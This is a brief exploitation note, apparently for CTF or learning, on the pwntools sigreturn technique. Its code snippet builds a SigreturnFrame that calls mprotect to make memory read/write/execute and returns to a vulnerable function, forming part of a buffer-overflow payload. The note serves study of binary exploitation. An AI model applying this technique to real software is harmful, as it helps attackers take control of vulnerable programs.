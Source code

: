 # pwntools sigreturn
sigreturn syscall restores a frame of all registers
- Example: this sigreturn frame will jump right to a syscall to mprotect the executable code as r/w/x so we can use it as a stack and a buffer overflow spot
```
frame = SigreturnFrame()
frame.rip = DIRECT_SYSCALL
frame.rsp = OFFSET_VULN_FUNC_SYMTAB # set RSP as an offset into the symbol table pointing to the vuln function so we can ret to vuln right after
frame.rax = constants.linux.amd64.__NR_mprotect # syscall mprotect
frame.rdi = 0x401000
frame.rsi = 0x1000
frame.rdx = constants.linux.amd64.PROT_READ | constants.linux.amd64.PROT_WRITE | constants.linux.amd64.PROT_EXEC

payload += bytes(frame)
```
